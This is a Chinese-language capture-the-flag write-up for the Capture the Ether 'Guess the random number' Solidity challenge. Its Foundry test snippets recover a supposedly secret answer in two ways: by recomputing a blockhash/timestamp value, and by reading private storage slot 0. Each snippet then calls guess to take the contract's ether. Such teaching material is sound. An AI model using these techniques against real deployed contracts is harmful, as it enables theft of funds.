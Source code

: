 # Guess the random number

## 题目描述

[原题链接](https://capturetheether.com/challenges/lotteries/guess-the-random-number/)

原题目要求 GuessTheRandomNumberChallenge 合约里面的余额为 0。而调用 guess 并输入答案，如果答案等于 answer 即可转移 2 ether 出去。

## 运行

**安装 Foundry**

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Lotteries/Guess_the_random_number -vvv
```

## 功能简述

在 GuessTheRandomNumberChallenge 合约中，设置了一个 secret 变量 answer，并在部署时使用 blockhash，block.timestamp
等初始化：
```sol
contract GuessTheRandomNumberChallenge {
    uint8 answer;

    constructor() payable {
        require(msg.value == 1 ether);
        answer = uint8(uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
    }
    ...
}
```
因此我们有两个思路来完成挑战。

**思路 1**

既然部署时的 block.number, block.timestamp 是可以拿到的，我们可以记录这些值，然后计算出 answer，这就是 testGuessTheRandomNumber1 的解决思路：
```sol
        // Suppose several blocks have passed
        vm.roll(deployBlockNumber+10);

        uint8 answer = uint8(uint(keccak256(abi.encodePacked(blockhash(deployBlockNumber - 1), deployTime))));
        emit log_named_uint("answer", answer);

        vm.startPrank(hacker);
        guessTheRandomNumberChallenge.guess{value: 1 ether}(answer);
        vm.stopPrank();
```

**思路 2**

answer 虽然是私有变量，但是我们可以通过 GuessTheRandomNumberChallenge 本地的 storage 布局以及 json-rpc 里面的 [eth_getStorageAt](https://ethereum.org/en/developers/docs/apis/json-rpc/#eth_getstorageat) 得到答案：

```sh
forge inspect ./src/Capture_the_Ether/Lotteries/Guess_the_random_number/GuessTheRandomNumberChallenge.sol:GuessTheRandomNumberChallenge storage --pretty
| Name   | Type  | Slot | Offset | Bytes | Contract                                                                                                                |
| ------ | ----- | ---- | ------ | ----- | ----------------------------------------------------------------------------------------------------------------------- |
| answer | uint8 | 0    | 0      | 1     | src/Capture_the_Ether/Lotteries/Guess_the_random_number/GuessTheRandomNumberChallenge.sol:GuessTheRandomNumberChallenge |
```

可以看出 slot 0 就存储了 answer。testGuessTheRandomNumber2 的思路：

```sol
        // 获取 slot 0 里面的值，这里就是 answer。
        uint answer = uint(vm.load(address(guessTheRandomNumberChallenge), bytes32(uint(0))));

        emit log_named_uint("answer", answer);

        vm.startPrank(hacker);
        guessTheRandomNumberChallenge.guess{value: 1 ether}(uint8(answer));
        vm.stopPrank();
```
